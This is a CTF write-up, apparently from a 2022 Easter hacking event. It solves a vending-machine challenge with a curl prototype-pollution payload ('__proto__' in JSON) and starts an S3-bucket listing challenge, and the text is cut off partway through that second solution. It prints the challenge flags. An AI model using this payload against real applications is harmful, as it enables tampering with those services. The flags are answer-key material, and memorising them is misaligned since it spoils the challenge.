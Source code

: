 ### 自動販売機

**Challenge**

I like these Japanese vending machines! ๑(◕‿◕)๑

If I could just get a 🚩...

http://46.101.107.117:2210

Note: The service is restarted every hour at x:00.

**Solution**

Based on some chatter in discord, we used the attack described here: [https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution](https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution)

```bash
$ curl --silent 'http://46.101.107.117:2210/order' -X POST -H 'Content-Type: application/json' --data-raw '{"__proto__": {"amount": 6, "item": "🚩"}}'
お楽しみください 🚩: he2022{p0llut10n_41nt_g00d}%
```

**Egg**

```
he2022{p0llut10n_41nt_g00d}
```

### Dingos!

**Challenge**

If you like 🐕 Dingos, check out my new web site!

👉 [my fancy Dingo web site](https://dingos.s3.eu-west-1.amazonaws.com/index.html)

**Solution**

The website specifically mentions "version 2", and a file listing is available.

```
$ aws s3 ls --recursive s3://dingos/
2022-02-09 08:44:52      63320 img/dingo1.jpg
2022-02-09 08:44:52      50718 img/dingo2.jpg
2022-02-09 08:44:52     107979 img/dingo3.jpg
2022-02-09 08:44:51     149397 img/dingo4.jpg
2022-02-09 08:45:16      96515 img/dingo_egg_ognid.png
2022-02-09 08:45:16        731 index.html
```

the current version of the egg file:
